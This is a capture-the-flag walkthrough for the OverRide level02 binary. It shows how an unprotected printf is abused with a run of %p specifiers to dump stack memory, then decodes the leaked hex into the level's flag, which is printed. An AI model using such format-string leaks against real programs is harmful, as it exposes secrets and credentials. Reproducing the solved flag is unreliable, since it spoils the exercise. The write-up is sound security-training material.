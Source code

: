 ### step 1: Decompile with Ghidra

C code is available in the `source` file  

/!\ File in 64 bits : addresses will have 8 bytes instead of the usual 4
```
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 26.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

### step 2: Code analysis

- Two buffers are filled with `stdin`
  - `buffer1[12]`
  - `buffer2[14]`

- A Username is asked to fill `buffer1`
- If we try to overflow `buffer1` with more than 12 chars, `buffer2` gets filled. Here is an example with only one long input :  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
--[ Password: *****************************************
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA does not have access!
```

**But we don't get a segfault this way**  
**However we spot an unprotected printf at line 69 in the sources**

- The content of the flag is read and stored in a variable (`file_content`)


### step 3: Exploit printf to read the stack

We can exploit the unprotected printf to read large chunks of the stack and print the memory containing the flag with `%p` in the username field  

%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: *****************************************
0x7fffffffe4f0(nil)0x700x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a080x25702570257025700x70(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x29002570250x602010(nil)0x7ffff7a3d7ed(nil)0x7fffffffe6e80x1000000000x400814(nil)0xec9d7c0ee9efabd3 does not have access!
```

- The following string surround by `\0` can be extracted : `0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d`

=> We spot 5 chunks of 8 chars (16 hex) that could correspond to our 40 char long flag   

### step 4: Process the flag into readable format

- In order to get our flag we have to process this string :
  1) Split the 5 chunks with the separator `0x`
  2) Convert each chunk to little endian
  3) Convert each hex number to a char
  4) Join all converted chunks

- Execute the Python script to get the processed string : `python3 script.py`  

- flag : `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`




